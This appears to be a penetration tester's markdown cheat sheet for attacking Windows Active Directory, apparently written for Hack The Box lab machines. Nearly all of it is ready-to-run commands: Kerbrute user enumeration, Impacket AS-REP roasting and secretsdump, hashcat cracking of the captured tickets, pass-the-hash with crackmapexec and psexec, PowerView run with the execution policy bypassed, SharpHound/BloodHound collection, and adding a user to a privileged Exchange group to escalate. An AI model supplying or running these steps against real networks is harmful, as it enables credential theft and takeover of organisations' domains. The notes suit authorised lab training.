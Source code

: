 # Tools

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrato, guest,

```

## Impacket

#### GetADUsers

```bash
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

```bash
```

#### secretsdump

```bash
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
neo4j console
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```

